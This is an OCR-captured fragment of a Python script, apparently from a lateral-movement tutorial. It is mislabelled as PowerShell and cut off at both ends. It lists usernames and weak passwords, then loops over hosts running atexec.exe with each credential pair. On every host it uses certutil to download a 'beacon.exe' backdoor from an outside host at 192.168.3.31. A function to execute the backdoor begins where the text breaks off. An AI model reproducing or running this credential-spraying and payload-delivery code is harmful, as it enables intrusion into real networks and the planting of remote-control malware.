    ``` powershell
   
       'boss',
   
       'dbadmin',
   
       'fileadmin',
   
       'jack',
   
       'mary',
   
       'vpnadm',
   
       'webadmin'
   
   }
   
   passs={
   
       'admin',
   
       'admin!@#45',
   
       'Admin12345'
   
   }
   
   
   
   def down():#下载后门
   
       for ip in ips:
   
           for user in users:
   
               for mima in passs:
   
                   #exec="net use \\"+ "\\"+ip+'\ipc$ '+mima+' /user:god\\'+user
   
                   exec1='atexec.exe ./administrator:'+mima+'@'+ip+' "certutil -urlcache -split -f http://192.168.3.31/beacon.exe c:/beacon.exe"'
   
                   exec2='atexec.exe god/'+user+':'+mima+'@'+ip+' "certutil -urlcache -split -f http://192.168.3.31/beacon.exe c:/beacon.exe"'
   
                   #exec3='atexec.exe ./administrator:admin!@#45@192.168.3.32 "certutil -urlcache -split -f http://192.168.3.31/beacon.exe c:/beacon.exe"'
   
                   print('--->'+exec1+'<---')
   
                   print('--->' + exec2 + '<---')
   
                   os.system(exec1)
   
                   os.system(exec2)
   
   
   def exec():#执行后门
   
       for ip in ips:
   
           for user in users:
   
   ```